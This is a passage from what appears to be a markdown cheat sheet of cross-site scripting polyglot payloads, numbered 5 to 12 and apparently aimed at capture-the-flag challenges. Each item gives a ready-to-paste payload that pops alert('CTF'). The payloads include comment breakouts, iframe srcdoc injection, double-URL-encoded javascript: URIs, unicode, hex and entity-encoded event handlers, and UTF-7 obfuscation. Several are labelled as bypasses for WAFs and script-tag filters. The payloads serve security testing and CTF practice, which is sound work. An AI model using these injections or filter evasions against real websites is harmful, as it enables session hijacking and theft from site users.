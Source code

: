 5. **Comment Breakout**  
   ```
   <!--><svg onload=alert('CTF')//-->
   ```
   - **Contexts**: Comments, HTML, SVG.
   - **Use Case**: Escapes HTML comment contexts.

6. **Iframe Srcdoc Polyglot**  
   ```
   <iframe srcdoc="<svg onload=alert('CTF')>"></iframe>
   ```
   - **Contexts**: HTML, iframe, SVG.
   - **Use Case**: Tests iframe srcdoc attributes.

7. **Mixed Comment Styles**  
   ```
   /*<!--//--><svg onload=alert('CTF')>
   ```
   - **Contexts**: Comments, HTML, SVG.
   - **Use Case**: Tests nested comment handling.

### HTML Entity & Encoding Polyglots
8. **Double-Encoded JavaScript**  
   ```
   %256a%2561%2576%2561%2573%2563%2572%2569%2570%2574:alert('CTF')
   ```
   - **Contexts**: JavaScript, URL, attributes.
   - **Use Case**: Bypasses aggressive WAFs with double URL encoding.

9. **Unicode Script Injection**  
   ```
   \u003cscript\u003ealert('CTF')\u003c/script\u003e
   ```
   - **Contexts**: JavaScript, HTML.
   - **Use Case**: Bypasses `<script>` tag filters.

10. **Hex-Encoded Event Handler**  
    ```
    \x6f\x6e\x6c\x6f\x61\x64=alert('CTF')//<svg>
    ```
    - **Contexts**: Attributes, HTML, SVG.
    - **Use Case**: Hex-encoded event handler bypass.

11. **HTML Entity Attribute Escape**  
    ```
    &#x27;><svg onload=alert('CTF')>
    ```
    - **Contexts**: Attributes, HTML, SVG.
    - **Use Case**: Escapes single-quoted attributes.

12. **UTF-7 Obfuscation**  
    ```
    +ADw-script+AD4-alert('CTF')+ADw-/script+AD4-
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Tests UTF-7 encoding bypass in legacy systems.
